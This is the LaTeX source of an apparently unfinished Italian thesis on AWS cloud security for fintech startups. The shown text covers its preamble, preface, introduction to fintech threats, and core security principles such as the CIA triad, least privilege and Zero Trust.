\documentclass[a4paper,12pt]{report}
% per le accentate
\usepackage[utf8]{inputenc}
\usepackage{lmodern}
\usepackage[T1]{fontenc}
\usepackage[backend=biber,style=ieee,sorting=none]{biblatex}
\addbibresource{references.bib}
%
% \includeonly{}
%
%			PREAMBOLO
%
\usepackage[a4paper]{geometry}
\usepackage{amssymb,amsmath,amsthm}
\usepackage{graphicx}
\usepackage{url}
\usepackage{booktabs}
\usepackage{hyperref}
\usepackage[italian]{babel}
\usepackage{setspace}
\usepackage{comment} % Per blocchi di codice
\usepackage{tesi}
\usepackage{listings} % Per blocchi di codice
\usepackage{xcolor} % Per colori nel codice

\usepackage{csquotes} % Per virgolette corrette (\enquote{})
% per le accentate
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
backgroundcolor=\color{backcolour},
commentstyle=\color{codegreen},
keywordstyle=\color{magenta},
numberstyle=\tiny\color{codegray},
stringstyle=\color{codepurple},
basicstyle=\ttfamily\small,
breakatwhitespace=false,
breaklines=true,
captionpos=b,
keepspaces=true,
numbers=left,
numbersep=5pt,
showspaces=false,
showstringspaces=false,
showtabs=false,
tabsize=2
}

\lstset{style=mystyle}
% Definizione linguaggio JSON per listings
\lstdefinelanguage{json}{
    keywords={true,false,null},
    sensitive=false,
    morestring=[b]",
    comment=[l]{//},
    morecomment=[s]{/*}{*/},
}
% Definizione stile per codice JSON
\lstdefinestyle{json}{
    language=json,
    basicstyle=\small\ttfamily,
    numbers=left,
    numberstyle=\tiny\color{gray},
    stepnumber=1,
    numbersep=5pt,
    backgroundcolor=\color{white},
    showspaces=false,
    showstringspaces=false,
    showtabs=false,
    frame=single,
    rulecolor=\color{black},
    tabsize=2,
    captionpos=b,
    breaklines=true,
    breakatwhitespace=false,
    title=\lstname,
    keywordstyle=\color{blue},
    commentstyle=\color{gray},
    stringstyle=\color{red!60!black},
    escapeinside={\%*}{*},
    morestring=[b]",
    literate=
      *{0}{{{\color{red!60!black}0}}}{1}
      {1}{{{\color{red!60!black}1}}}{1}
      {2}{{{\color{red!60!black}2}}}{1}
      {3}{{{\color{red!60!black}3}}}{1}
      {4}{{{\color{red!60!black}4}}}{1}
      {5}{{{\color{red!60!black}5}}}{1}
      {6}{{{\color{red!60!black}6}}}{1}
      {7}{{{\color{red!60!black}7}}}{1}
      {8}{{{\color{red!60!black}8}}}{1}
      {9}{{{\color{red!60!black}9}}}{1}
      {:}{{{\color{black}:}}}{1}
      {,}{{{\color{black},}}}{1}
      {\{}{{{\color{black}\{}}}{1}
      {\}}{{{\color{black}\}}}}{1}
      {[}{{{\color{black}[}}}{1}
      {]}{{{\color{black}]}}}{1}
}


% Definizione stile per codice Python migliorato
\lstdefinestyle{python}{
    language=Python,
    basicstyle=\small\ttfamily,                     % Testo monospaziato, dimensione piccola
    numbers=left,                                    % Numeri di riga a sinistra
    numberstyle=\tiny\color{gray},                   % Numerazione grigio chiaro, dimensione ridotta
    stepnumber=1,                                    % Incremento numeri di riga di 1
    numbersep=5pt,                                   % Spazio tra numeri e codice
    backgroundcolor=\color{gray!10},                 % Sfondo grigio molto chiaro (10%)
    showspaces=false,
    showstringspaces=false,
    showtabs=false,
    frame=single,                                    % Cornice singola attorno al blocco
    rulecolor=\color{gray!60},                       % Colore della cornice grigio scuro (60%)
    tabsize=2,                                       % Tabulazioni di 2 spazi
    captionpos=b,                                    % Didascalia in basso
    breaklines=true,                                 % Spezzare le righe troppo lunghe
    breakatwhitespace=true,                          % Spezzare preferibilmente sugli spazi
    title=\lstname,                                  % Usa il nome del file come titolo del blocco
    keywordstyle=\color{blue!80!black}\bfseries,     % Parole chiave in blu scuro e grassetto
    commentstyle=\color{green!50!black}\itshape,     % Commenti in verde scuro corsivo
    stringstyle=\color{orange!80!black},             % Stringhe in arancio scuro
    emphstyle=\color{red!70!black}\bfseries,          % Evidenziazioni extra in rosso scuro (per emph)
    escapeinside={\%*}{*},                           % Permette di inserire commenti LaTeX all’interno
    morekeywords={boto3, iam, lambda_handler, event, context, client, update_user, UserName, PermissionsBoundary},
    % Aggiunta di built-in e funzioni Python comunemente usate
    morekeywords=[2]{def, return, import, as, if, elif, else, for, while, in, try, except, with, class, from, pass, True, False, None},
    keywordstyle=[2]\color{purple!70!black}\bfseries, % Secondo gruppo di keyword in viola scuro 
    xleftmargin=5pt,                                 % Margine interno sinistro
    xrightmargin=5pt,                                % Margine interno destro
    % ---- Opzionale: evidenzia il prompt ">>>" di un REPL Python ----
    moredelim=[is][\color{red!70!black}\bfseries]{>>>}{\ }, 
}

    % Definizione stile per codice Bash migliorato
    \lstdefinestyle{bash}{
        language=bash,
        basicstyle=\small\ttfamily,
        numbers=left,
        numberstyle=\tiny\color{gray},
        stepnumber=1,
        numbersep=5pt,
        backgroundcolor=\color{gray!10},
        showspaces=false,
        showstringspaces=false,
        frame=single,
        rulecolor=\color{gray!60},
        tabsize=2,
        captionpos=b,
        breaklines=true,
        breakatwhitespace=true,
        title=\lstname,
        keywordstyle=\color{blue!80!black},
        commentstyle=\color{green!50!black}\itshape,
        stringstyle=\color{orange!80!black},
        escapeinside={\%*}{*},
        morekeywords={aws, sts, assume-role, --role-arn, --role-session-name},
        xleftmargin=5pt,
        xrightmargin=5pt,
    }




%
%			TITOLO
\begin{document}

% Aggiunta immagine sopra al titolo
\begin{center}
        
\includegraphics[width=0.2\textwidth]{images/Unimi-logo.png}
        \vspace{1cm}
\end{center}

\title{Sicurezza dell'Infrastruttura AWS in una Startup Fintech}
\author{Andrea Ferraboli}
\dept{Corso di Laurea in Sicurezza dei Sistemi e delle Reti Informatiche } 
\anno{2024-2025}
\matricola{09985A}
\relatore{Prof. Claudio Agostino Ardagna}
\correlatore{Lorenzo Perotta, Andrea Pasini, Simone Cortese}

\beforepreface
 \prefacesection{Prefazione}
        Immaginate un veliero agile e innovativo, una startup fintech, che solca le onde tumultuose del mercato finanziario globale. La sua velocità è la sua forza, la sua tecnologia all'avanguardia la sua vela maestra. Ma in queste acque, popolate da insidie digitali sempre più sofisticate, la robustezza dello scafo e l'affidabilità della bussola – ovvero una solida architettura di cybersecurity – diventano cruciali non solo per raggiungere la meta, ma per la sopravvivenza stessa del viaggio. Questo lavoro si addentra proprio in questo scenario, esplorando il delicato equilibrio tra la spinta propulsiva all'innovazione tipica delle startup fintech e l'imprescindibile necessità di una sicurezza informatica ferrea.

        La trattazione si snoda attraverso le sfide specifiche che queste giovani realtà digitali affrontano quotidianamente, proponendo strategie concrete e applicabili, con un'attenzione particolare all'ecosistema cloud di Amazon Web Services (AWS). Si analizzano non solo i mattoni fondamentali della protezione, come la gestione degli accessi e la difesa delle reti, ma anche strumenti di difesa proattiva come gli honeypot, veri e propri "specchietti per le allodole" digitali. Il tutto viene contestualizzato nel panorama dei principali framework e standard di sicurezza internazionali, offrendo così una prospettiva che lega la pratica alla teoria, con l'obiettivo finale di fornire spunti e metodologie per costruire infrastrutture resilienti, capaci di navigare sicure verso il futuro.

        Il percorso di questa tesi si articola come segue:
        Il \textbf{Capitolo 1}, intitolato "Introduzione", apre le porte sul mondo delle startup fintech, delineandone il contesto dinamico, le vulnerabilità intrinseche e le sfide uniche che devono affrontare nel campo della cybersecurity. Si mette in luce come un approccio proattivo alla sicurezza non rappresenti un mero costo, bensì un investimento strategico fondamentale.
        Successivamente, il \textbf{Capitolo 2}, "Principi di cybersecurity olistici per un'infrastruttura tech", getta le basi teoriche, esplorando i concetti cardine della sicurezza informatica – dalla triade CIA (Confidenzialità, Integrità, Disponibilità) alla difesa in profondità, fino al principio del minimo privilegio – calandoli nella realtà operativa delle startup.
        Il \textbf{Capitolo 3}, "Principi dell'Infrastruttura Cloud e Scelta di AWS", guida il lettore attraverso i paradigmi del cloud computing, confrontandoli con le tradizionali infrastrutture on-premises. Viene quindi introdotto Amazon Web Services (AWS) come piattaforma cloud di riferimento per molte realtà innovative, descrivendone l'architettura globale e i meccanismi che ne garantiscono scalabilità e flessibilità.
        Con il \textbf{Capitolo 4}, "Implementazioni Pratiche su AWS per una Startup Fintech", si entra nel vivo della progettazione, illustrando come tradurre i principi di sicurezza in configurazioni concrete all'interno dell'ambiente AWS. Si toccano temi cruciali come la gestione delle identità e degli accessi (IAM), la creazione di reti virtuali sicure (VPC), la protezione delle istanze di calcolo (EC2) e la salvaguardia dei dati sensibili.
        Il \textbf{Capitolo 5}, "Implementazione di un Honeypot in un'Infrastruttura AWS per Startup Fintech", è dedicato a uno strumento di difesa proattiva: l'honeypot. Se ne analizza la definizione, l'utilità, le diverse tipologie, i vantaggi e gli svantaggi, per poi passare alla descrizione di un'implementazione pratica su AWS, corredata da un'analisi dei costi e dalla simulazione di un attacco controllato per testarne l'efficacia.
        Infine, il \textbf{Capitolo 6}, "Compliance a standard internazionali e framework di sicurezza", chiude l'analisi, esaminando come le pratiche e le infrastrutture di sicurezza implementate si allineino ai principali standard e framework riconosciuti a livello globale, come il NIST Cybersecurity Framework, l'ISO/IEC 27001 e i principi della Zero Trust Architecture, offrendo una visione d'insieme sulla governance della sicurezza in un contesto fintech.
\prefacesection{Dedica}
{\hfill \Large {\sl dedicato a chi mi vuole bene, a chi mi stima e ai miei compagni di viaggio, vi voglio bene}}
\prefacesection{Ringraziamenti}
        Vorrei ringraziare soprattutto \dots

\tableofcontents
\listoffigures % Comando per generare l'elenco delle figure

\chapter{Introduzione}
\pagenumbering{arabic}
\label{chapter:introduzione}

\section{La Cybersecurity nelle Startup Fintech: Sfide, Vulnerabilità e Strategie di Protezione in un Ecosistema in Rapida Evoluzione}

Il settore fintech rappresenta oggi una delle aree più dinamiche e innovative dell'ecosistema startup, con investimenti globali che hanno raggiunto i 115 miliardi di dollari, in crescita esponenziale rispetto ai 53.2 miliardi del 2018 \cite{gartnerFintech}. Questo rapido sviluppo, caratterizzato dall'implementazione di tecnologie emergenti per i servizi finanziari, porta con sé non solo opportunità senza precedenti ma anche significative sfide in termini di sicurezza informatica. Le startup fintech, che si trovano all'intersezione tra finanza tradizionale e innovazione tecnologica, gestiscono dati estremamente sensibili diventando bersagli privilegiati per i cybercriminali. Questa tesi esplora le vulnerabilità specifiche di queste realtà, analizza le principali minacce che affrontano e propone strategie di sicurezza efficaci anche in contesti di risorse limitate, evidenziando come un approccio proattivo alla cybersecurity non rappresenti un costo ma un investimento strategico fondamentale per il successo a lungo termine di una startup fintech.
\subsection{Definizione di Fintech}

Nell'ambito economico-finanziario, con il termine \textbf{fintech} (contrazione di ``financial technology'') si indica l'\textbf{innovazione nei servizi finanziari} resa possibile dalle moderne tecnologie digitali \cite{tecnofinanza}. Una \textbf{startup fintech} è quindi una \textbf{nuova impresa} che opera nel settore della tecnologia finanziaria, basando il proprio modello di business sulle tecnologie ICT più avanzate e contrapponendosi agli approcci tradizionali degli operatori finanziari consolidati \cite{fintech_numeri}. 

Queste giovani aziende ad alta componente tecnologica mirano a migliorare l'accessibilità, l'efficienza e la qualità dei servizi finanziari, e stanno svolgendo un ruolo cruciale nella \textbf{digitalizzazione del mercato finanziario italiano} \cite{tecnofinanza}. 

Tra i servizi e le soluzioni tipicamente offerti dalle startup fintech vi sono:
\begin{itemize}
    \item \textbf{Pagamenti digitali} (ad esempio tramite app mobili)
    \item Trasferimenti di denaro \textbf{peer-to-peer}
    \item \textbf{Prestiti diretti tra privati} (social lending)
    \item \textbf{Finanziamento partecipativo} (crowdfunding)
    \item Servizi assicurativi innovativi legati all'\textbf{insurtech}
    \item Impiego di tecnologie come la \textbf{blockchain} e le \textbf{criptovalute} per abilitare nuovi servizi finanziari
\end{itemize}

In linea con la crescita globale del fenomeno, in Italia si contavano oltre \textbf{600 startup fintech e insurtech} attive nel 2023 \cite{fintech_numeri}, a testimonianza di un ecosistema in rapido sviluppo.
\subsection{Il Contesto delle Startup Fintech: Un Ecosistema Dinamico e Sfidante}

Le startup fintech operano in un ambiente caratterizzato da elevata incertezza, risorse limitate e necessità di crescita rapida, fattori che influenzano profondamente le decisioni in ambito IT e sicurezza informatica \cite{fintechChallenges}. A differenza delle istituzioni finanziarie tradizionali, queste realtà innovative non dispongono generalmente di strutture gerarchiche complesse o budget consistenti dedicati alla sicurezza, dovendo invece adottare approcci agili e flessibili.

Il contesto finanziario in cui operano le startup fintech impone pressioni significative sulle decisioni di spesa. Ogni investimento, compreso quello per l'infrastruttura IT e la sicurezza, deve essere attentamente valutato in termini di ritorno immediato e benefici a lungo termine \cite{fintechChallenges}. Questa ottimizzazione dei costi rappresenta una sfida continua, poiché la sicurezza informatica richiede investimenti costanti, spesso non producendo risultati immediatamente visibili, la cui assenza può comportare conseguenze catastrofiche. In questo equilibrio delicato, le startup fintech devono trovare il giusto compromesso tra la necessità di scalare rapidamente e l'implementazione di solide misure di protezione.

\subsection{La Distinzione tra Cybersecurity Bancaria e Fintech}

Un aspetto fondamentale da considerare è la sostanziale differenza tra l'approccio alla cybersecurity nel settore bancario tradizionale e nelle startup fintech. Mentre le banche operano in un contesto fortemente regolamentato, con obblighi legali precisi in materia di sicurezza e protezione dei dati, le fintech hanno tradizionalmente goduto di una maggiore flessibilità normativa \cite{bankingVsFintech}. Le grandi istituzioni bancarie investono ingenti risorse nel testare costantemente le proprie misure di sicurezza, consapevoli che anche il minimo incidente può comportare la perdita di migliaia di clienti e sanzioni finanziarie significative.

Le fintech, spesso costituite da piccole startup in rapida espansione, possono fungere da "overlay" per le banche, facilitando la fornitura di servizi finanziari innovativi ma operando inizialmente con regolamentazioni meno stringenti \cite{bankingVsFintech}. Questa differenza normativa sta tuttavia diminuendo, soprattutto per quelle fintech che si trasformano gradualmente in vere e proprie banche, sottoponendosi così a un maggiore scrutinio regolamentare. La sfida per le startup fintech consiste quindi nel bilanciare l'agilità operativa con l'adozione di standard di sicurezza elevati, anticipando l'evoluzione normativa del settore.

\subsection{Sfide Principali per le Startup Fintech in Ambito Cybersecurity}

Le startup fintech affrontano sfide specifiche nel campo della sicurezza informatica, che derivano dalla loro natura innovativa e dalle caratteristiche distintive del loro modello di business \cite{fintechChallenges}. La prima e più evidente sfida è rappresentata dal budget limitato per la sicurezza, che spesso costringe a difficili compromessi tra lo sviluppo di nuove funzionalità e l'implementazione di adeguate misure protettive. Questa limitazione finanziaria si riflette anche nella difficoltà di attrarre e mantenere personale specializzato in cybersecurity, un ambito in cui la domanda supera ampiamente l'offerta e le grandi aziende possono offrire compensi difficilmente pareggiabili da una startup.

La pressione per un rapido accesso al mercato rappresenta un'ulteriore sfida significativa. Nel settore fintech, essere i primi a offrire un servizio innovativo può fare la differenza tra il successo e il fallimento, ma questa corsa contro il tempo spesso porta a sottovalutare gli aspetti legati alla sicurezza \cite{fintechChallenges}. Inoltre, la scalabilità dell'infrastruttura IT rappresenta una sfida tecnica considerevole: progettare sistemi che siano non solo sicuri ma anche in grado di crescere rapidamente al crescere dell'azienda richiede competenze specifiche e una pianificazione accurata.

L'adozione di tecnologie emergenti, caratteristica distintiva delle fintech, introduce nuove superfici di attacco e vulnerabilità potenziali \cite{fintechChallenges}. Cloud computing, intelligenza artificiale, blockchain e API aperte offrono opportunità straordinarie ma richiedono approcci di sicurezza specifici e aggiornati. Allo stesso tempo, la crescente interconnessione con partner, fornitori e piattaforme di terze parti amplia ulteriormente la superficie di attacco, rendendo la gestione del rischio ancora più complessa.

Non va sottovalutato, infine, il rischio rappresentato dalle minacce interne (insider threats). Nelle fasi iniziali di una startup, quando i controlli sono meno rigidi e le procedure di sicurezza meno formalizzate, il rischio legato a dipendenti negligenti o, in casi più rari, malintenzionati, aumenta considerevolmente \cite{fintechChallenges}. La cultura della condivisione e dell'apertura, tipica delle startup, deve quindi essere bilanciata con adeguate politiche di accesso e controllo.

\subsection{Minacce e Attacchi Informatici nel Settore Fintech}

Il settore fintech, per la sua natura altamente tecnologica e la gestione di dati finanziari sensibili, è diventato uno dei bersagli preferiti dei cybercriminali \cite{cyberThreatsFintech}. Tra le minacce più diffuse e pericolose figurano gli attacchi di phishing, attraverso i quali i malintenzionati cercano di ottenere credenziali di accesso, dati personali o informazioni finanziarie utilizzando email, messaggi e siti web fraudolenti che imitano comunicazioni ufficiali \cite{cyberThreatsFintech}. Queste tecniche di social engineering sfruttano la fiducia degli utenti e le loro abitudini digitali per compromettere account e sistemi aziendali.

I malware e i ransomware rappresentano un'altra categoria di minacce particolarmente grave per le startup fintech. Questi software malevoli possono infiltrarsi nei sistemi attraverso vari vettori, bloccare l'accesso ai dati e richiedere un riscatto per ripristinarlo, causando danni finanziari diretti e interruzioni operative significative \cite{cyberThreatsFintech}. Le conseguenze di un attacco ransomware possono essere devastanti per una startup con risorse limitate, in quanto il riscatto diventa percentualmente troppo oneroso per le finanze aziendali.

Gli attacchi alle API (Application Programming Interfaces), sempre più utilizzate nel settore fintech per l'integrazione con servizi terzi, costituiscono un vettore di attacco in crescita \cite{fintechChallenges}. Le API mal configurate o non adeguatamente protette possono diventare punti di ingresso privilegiati per i cybercriminali, consentendo l'accesso non autorizzato a dati sensibili e funzionalità critiche del sistema. Simile criticità presentano le configurazioni errate dei servizi cloud, che possono esporre involontariamente dati riservati o creare vulnerabilità sfruttabili.

Le startup fintech devono inoltre considerare il rischio di attacchi DDoS (Distributed Denial of Service), che mirano a rendere inaccessibili i servizi sovraccaricando i server con richieste fraudolente \cite{fintechChallenges}. Questi attacchi, relativamente semplici da orchestrare ma potenzialmente molto dannosi, possono essere utilizzati sia come attacco diretto che come diversivo per mascherare altre attività malevoli più sofisticate.

\subsection{Conseguenze degli Attacchi e Impatto sulle Startup Fintech}

L'impatto di un attacco informatico su una startup fintech può essere multidimensionale e, in molti casi, esistenziale. A livello finanziario, oltre ai costi diretti per il ripristino dei sistemi e la gestione dell'incidente, vanno considerati i potenziali risarcimenti a clienti danneggiati, le sanzioni normative e l'aumento dei premi assicurativi \cite{fintechChallenges}. Ma è forse l'impatto reputazionale a rappresentare la minaccia più grave: in un settore basato sulla fiducia come quello finanziario, una violazione dei dati può comprometterne irreparabilmente l'immagine, portando alla perdita di clienti attuali e potenziali.

L'interruzione operativa conseguente a un attacco può avere effetti a catena, influenzando non solo i clienti diretti ma anche partner commerciali e fornitori \cite{fintechChallenges}. In un ecosistema interconnesso come quello fintech, l'interdipendenza tra diverse piattaforme e servizi amplifica ulteriormente l'impatto di un incidente di sicurezza, con effetti che possono estendersi ben oltre il perimetro aziendale immediato.

\subsection{Importanza di un Approccio Proattivo alla Cybersecurity}

Implementare una strategia di cybersecurity solida sin dalle prime fasi di sviluppo di una startup fintech non configura un semplice onere, bensì un investimento strategico di primaria importanza \cite{fintechChallenges}. L'adozione del paradigma "security by design" permette infatti di integrare la sicurezza in maniera organica nei processi aziendali e nel ciclo di sviluppo del prodotto, contribuendo alla significativa riduzione dei costi a lungo termine e alla minimizzazione dei rischi potenziali. Al contrario, la mancata attenzione alla sicurezza nelle fasi iniziali comporta l'accumulo di "security debt", ovvero un debito tecnico in ambito sicurezza che, analogamente a un mutuo con tassi elevati, diventa progressivamente più oneroso da gestire e da ripagare nel tempo. Infine, la pressione derivante dalla necessità di accelerare lo sviluppo e di raggiungere rapidamente il mercato può portare a trascurare aspetti fondamentali della sicurezza, esacerbando ulteriormente tale debito tecnico.

Un approccio preventivo alla sicurezza risulta sempre più efficace ed economico rispetto a uno reattivo \cite{fintechChallenges}. I costi per implementare misure di sicurezza di base sono generalmente inferiori rispetto a quelli necessari per rispondere a un incidente, che possono includere non solo il ripristino dei sistemi ma anche sanzioni, risarcimenti e danni reputazionali. La cybersecurity deve quindi essere considerata come parte integrante della strategia aziendale, non come un elemento accessorio o un costo da minimizzare.

Le startup fintech devono inoltre considerare che adeguati livelli di sicurezza rappresentano spesso un requisito fondamentale per attrarre investitori e partner commerciali \cite{fintechChallenges}. Durante le fasi di due diligence, l'analisi delle misure di sicurezza implementate è diventata una componente standard, e lacune significative in questo ambito possono compromettere opportunità di finanziamento o collaborazioni strategiche.

\subsection{Approccio Metodologico della Tesi}

Questa tesi si propone di affrontare le sfide della cybersecurity nelle startup fintech attraverso un approccio metodologico strutturato ma flessibile \cite{fintechChallenges}. Pur concentrandosi su un caso studio pratico specifico, l'obiettivo è fornire principi e best practice di sicurezza generici e applicabili a qualsiasi startup fintech, indipendentemente dalla piattaforma tecnologica specifica utilizzata. L'approccio adottato riconosce le limitazioni di risorse tipiche delle startup e propone soluzioni scalabili che possono evolvere con la crescita dell'organizzazione.

La metodologia si basa su tre pilastri fondamentali: l'identificazione delle minacce specifiche per il modello di business fintech, la prioritizzazione degli interventi in base al rapporto rischio/beneficio e l'implementazione di controlli di sicurezza essenziali ma efficaci \cite{fintechChallenges}. Questo approccio pragmatico consente di ottenere un livello di protezione adeguato anche con risorse limitate, concentrando gli sforzi sugli aspetti più critici.

\section{Principi di cybersecurity olistici per un'infrastruttura tech}
\subsection{Introduzione}
Nell'analisi e nello studio dell'infrastruttura di una startup fintech, per comprendere le possibili implementazioni a livello di sicurezza dobbiamo prima delineare quali siano i principi di cybersecurity a cui ogni startup, fintech o meno, deve attenersi. In questo capitolo verranno analizzati i principi di cybersecurity più importanti e quali sono le principali sfide che un'azienda di piccole dimensioni può affrontare all'inizio del proprio percorso nell'adozione di tali pratiche.

Questo capitolo esplora i principi fondamentali di sicurezza informatica che ogni organizzazione dovrebbe implementare, con particolare attenzione alle sfide uniche che le startup fintech affrontano nell'adozione di tali pratiche. Il settore fintech, caratterizzato da rapida innovazione e gestione di dati finanziari sensibili, presenta un contesto particolarmente critico dove le best practice di sicurezza si scontrano spesso con le esigenze di velocità di sviluppo, risorse limitate e necessità di time-to-market accelerato.

\section{Principi di cybersecurity}
\label{sec:principi-cybersecurity}

\subsection{Triade CIA}
La Triade CIA rappresenta i tre pilastri fondamentali dell'information security: confidentiality (riservatezza), integrity (integrità) e availability (disponibilità) \cite{NIST_SP_1800_26}. Questi principi costituiscono la base su cui costruire qualsiasi strategia di sicurezza informatica robusta.

\begin{itemize}
\item \textbf{Confidentiality}: La riservatezza si concentra sul preservare le restrizioni autorizzate sull'accesso e la divulgazione delle informazioni, inclusi i mezzi per proteggere la privacy personale e le informazioni proprietarie \cite{NIST_SP_1800_26}. Questo principio viene generalmente rispettato tramite la crittografia dei dati, sia a riposo (stored data) che in transito (data in transit), controlli di accesso rigorosi, come liste di controllo degli accessi (ACL), autenticazione a più fattori (MFA) e Role-Based Access Control (RBAC).

text
Nel contesto di una startup fintech, l'implementazione della riservatezza presenta sfide significative. L'accesso ai dati dei clienti e alle informazioni finanziarie deve essere rigorosamente controllato, ma i team piccoli e multifunzionali tipici delle startup spesso portano a una condivisione delle credenziali o all'assegnazione di privilegi eccessivi per "far funzionare le cose rapidamente".

La gestione delle chiavi di cifratura rappresenta un'ulteriore complessità: nelle startup dove i ruoli non sono chiaramente definiti, la responsabilità della gestione delle chiavi può essere ambigua, portando potenzialmente a compromissioni della sicurezza.

\item \textbf{Integrity}: L'integrità dei dati comporta la protezione contro modifiche o distruzioni improprie delle informazioni e garantisce la non ripudiabilità e l'autenticità delle informazioni \cite{NIST_SP_1800_26}. Mantenere l'integrità dei dati è essenziale per prevenire la diffusione di informazioni corrotte o ingannevoli, che potrebbero avere gravi ripercussioni in settori critici come quello sanitario o finanziario. Le tecniche utilizzate per preservare l'integrità includono:
\begin{itemize}
    \item Funzioni di hash crittografiche (es. SHA-256) per verificare che i dati non siano stati alterati.
    \item Firme digitali per autenticare l'origine dei dati e garantirne la non modifica.
    \item Controllo delle versioni per tracciare le modifiche e ripristinare versioni precedenti.
    \item Checksum e meccanismi di rilevamento degli errori.
\end{itemize}

Nel contesto di una startup fintech, l'integrità dei dati è uno di quegli aspetti che va ad inficiare la brand reputation della startup stessa, in quanto la fiducia degli stakeholders si basa anche sulla capacità della startup di conservare i dati dei clienti senza distorsioni e di garantire l'accuratezza nelle transazioni di dati nella maniera più professionale possibile.

\item \textbf{Availability}: Questo principio assicura l'accesso affidabile e tempestivo alle informazioni \cite{NIST_SP_1800_26}. Mira a prevenire interruzioni del servizio, sia dovute a guasti tecnici che ad attacchi malevoli come i Denial-of-Service (DoS) o Distributed Denial-of-Service (DDoS). L'indisponibilità può causare interruzioni operative, perdite economiche e danni alla reputazione. Le strategie per garantire un'elevata disponibilità comprendono:
\begin{itemize}
    \item Sistemi ridondanti (hardware, software, reti) per eliminare singoli punti di fallimento (Single Points of Failure - SPOF).
    \item Backup regolari e piani di disaster recovery (DR) e business continuity (BCP).
    \item Tecniche di bilanciamento del carico (load balancing) per distribuire il traffico di rete.
    \item Misure di protezione contro attacchi DoS/DDoS.
\end{itemize}

Nella maggior parte delle startup, l'infrastruttura di base viene sviluppata considerando una capacità di carico massimo limitato, in quanto nei primi periodi di vita dell'azienda non ci si aspetta un elevato numero di utenti. Proprio per questo motivo, l'infrastruttura presenta un punto vulnerabile che può essere sfruttato dagli attaccanti per mettere a repentaglio l'intero sistema, ad esempio con attacchi DoS/DDoS mirati al perimetro aziendale.
\end{itemize}

\subsection{Difesa in Profondità (Defense in Depth)}
Il principio di difesa in profondità prevede l'implementazione di una stratificazione delle risorse informatiche di protezione \cite{Cyberment}. Questo approccio permette di rallentare la penetrazione di un eventuale attacco esterno, al fine di avere poi il tempo necessario per una efficace reazione protettiva. La strategia di difesa in profondità fornisce la fondazione per una protezione multidimensionale che include tre componenti mutualmente supportive e rinforzanti: (1) architettura resistente alla penetrazione, (2) operazioni di limitazione dei danni, e (3) progettazione per la cyber resilienza e la sopravvivenza \cite{NIST_SP_800_172}.

Nelle startup fintech, l'implementazione della difesa in profondità è spesso compromessa da vincoli di risorse e pressioni temporali. Ad esempio, mentre una soluzione di autenticazione a più fattori (MFA) è essenziale per proteggere l'accesso a dati finanziari sensibili, una startup potrebbe inizialmente implementare solo l'autenticazione basata su password per accelerare l'onboarding degli utenti, pianificando di aggiungere MFA "in un secondo momento" – un momento che potrebbe non arrivare prima che si verifichi un incidente di sicurezza.

La segmentazione della rete, fondamentale per contenere eventuali violazioni, richiede una progettazione accurata dell'infrastruttura. Tuttavia, nelle fasi iniziali, molte startup fintech operano con architetture di rete piatte per semplificare lo sviluppo e ridurre il sovraccarico operativo, oltre a non disporre del capitale umano competente per gestire una tale complessità.

\subsection{Principio del Minimo Privilegio}
Il principio del minimo privilegio stabilisce che un sistema dovrebbe limitare i privilegi di accesso degli utenti (o dei processi che agiscono per conto degli utenti) al minimo necessario per svolgere le attività assegnate \cite{NIST_Glossary}. Questo principio dichiara che un'architettura di sicurezza è progettata in modo che a ciascuna entità siano concesse le minime autorizzazioni e risorse di sistema necessarie per svolgere la propria funzione \cite{NIST_Glossary}.

Nelle startup fintech, applicare il principio del minimo privilegio presenta sfide uniche. La cultura focalizzata sulla velocità d'esecuzione spinge spesso a trascurare la sicurezza granulare degli accessi. È forte la tentazione di assegnare privilegi amministrativi ampi e generici per accelerare lo sviluppo, piuttosto che investire tempo nella configurazione di permessi specifici per ogni compito.

Un esempio comune è concedere a tutti gli sviluppatori accesso completo al database di produzione durante la creazione di una nuova dashboard, invece di limitare ciascuno alle sole tabelle o operazioni strettamente necessarie. Sebbene sembri una scorciatoia efficiente, questa pratica crea vulnerabilità critiche: la compromissione di un singolo account può esporre una quantità sproporzionata di dati sensibili, amplificando enormemente i danni di una violazione.

\subsection{Separazione dei Compiti (Separation of Duties)}
La separazione dei compiti include la divisione delle funzioni di missione o business e le funzioni di supporto tra diverse persone o ruoli, conducendo funzioni di supporto al sistema con individui diversi, e assicurando che il personale di sicurezza che amministra le funzioni di controllo degli accessi non amministri anche le funzioni di audit \cite{OSCAL_Content}. Poiché le violazioni della separazione dei compiti possono estendersi a sistemi e domini di applicazioni, le organizzazioni considerano l'interezza dei sistemi e dei componenti del sistema quando sviluppano politiche sulla separazione dei compiti \cite{OSCAL_Content}.

Nelle startup fintech, dove i team sono piccoli e i ruoli spesso sovrapposti, questo principio è particolarmente difficile da attuare. Ad esempio, in una startup che sviluppa una piattaforma di prestiti P2P, potrebbe esserci un solo ingegnere responsabile sia dell'implementazione del sistema di scoring del credito sia della configurazione dei controlli di sicurezza sullo stesso sistema. Questa concentrazione di responsabilità crea un rischio intrinseco: errori o azioni malevole potrebbero passare inosservati senza un secondo paio di occhi che verifichi il lavoro.

\subsection{Zero Trust}
Il modello Zero Trust si basa sul concetto che un'organizzazione non dovrebbe fidarsi automaticamente di nulla sia all'interno che all'esterno dei suoi perimetri e deve verificare tutto ciò che tenta di connettersi ai suoi sistemi prima di concedere l'accesso \cite{NIST_SP_800_207}. Zero Trust è una risposta evoluta alle tendenze che includono la migrazione delle risorse di lavoro verso ambienti cloud, lavoratori che operano da dispositivi mobili ovunque si trovino e una crescente collaborazione tra organizzazioni \cite{NIST_SP_800_207}.

Per una startup fintech, l'adozione rigorosa del principio di Zero Trust può rivelarsi particolarmente gravosa. Nelle fasi iniziali, è frequente che l'intera infrastruttura sia gestita da una sola persona, con responsabilità sia di sviluppo sia di amministrazione di rete: questo crea un unico punto di falla, amplificando il rischio di errori di configurazione o di accesso non autorizzato.

Inoltre, le limitate risorse economiche e umane possono rendere difficoltoso implementare soluzioni avanzate di micro-segmentazione, sistemi di Identity and Access Management (IAM) complessi e piattaforme di monitoraggio continuo. Infine, la mancanza di separazione dei compiti e di revisioni periodiche rende più probabile la persistenza di permessi eccessivi o non aggiornati, esponendo i sistemi a potenziali attacchi laterali e perdite di dati sensibili.

\chapter{Principi di cybersecurity olistici per un'infrastruttura tech}
\label{ch:principi-cybersecurity}
\section{Introduzione}
